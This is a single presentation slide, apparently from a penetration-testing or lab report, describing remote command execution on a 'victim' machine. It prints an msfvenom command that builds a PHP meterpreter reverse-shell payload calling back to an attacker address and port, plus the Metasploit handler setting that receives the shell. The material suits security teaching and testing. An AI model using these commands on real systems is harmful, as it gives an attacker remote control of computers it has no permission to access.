

# Exploitation: [Remote Command Execution]
01

02

03

Tools & Processes:

Msfvenom was the main tool that was used to form/create a reverse shell payload
Achievements:

The reverse shell payload successfully exploited the victim's machine and  allowed the attacker to gain remote access over the victim's computer

Command:
root@Kali:~# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >>shell.php
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp